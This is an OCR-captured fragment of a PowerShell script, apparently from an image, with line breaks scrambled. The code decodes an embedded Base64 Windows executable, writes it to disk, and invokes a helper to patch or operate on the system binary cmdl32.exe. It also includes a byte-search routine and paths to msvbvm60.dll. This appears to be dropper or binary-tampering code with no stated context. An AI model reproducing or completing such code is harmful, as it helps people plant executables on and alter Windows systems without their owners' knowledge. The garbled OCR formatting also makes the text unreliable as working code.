 
         $bytes
= [System.Convert]::FromBase64String("TVq" + $b64);


         New-Item
-ItemType Directory -Force -Path $binDir | Out-Null;


         [io.file]::WriteAllBytes($path,$bytes)
| Out-Null;


         updt
-t $path -b $cmdl32path


}





function sb($h, $n ) {


    $len = $n.length;


    $limit = $h.length - $len;


    For( $i = 0;  $i -le $limit;  $i++ ) {


        $k = 0;


        For( ;  $k -lt $len;  $k++ ) {


            if( $n[$k] -ne $h[$i+$k] ) {break};


        }


        if( $k -eq $len ){return $i};


    }


    return -1;


}





if((Test-Path $env:WINDIR\SysWOW64)){


         $msvbvmdllpath
= $env:WINDIR + "\SysWOW64\msvbvm60.dll"


         $cmdl32path
= $env:WINDIR + "\SysWOW64\cmdl32.exe"
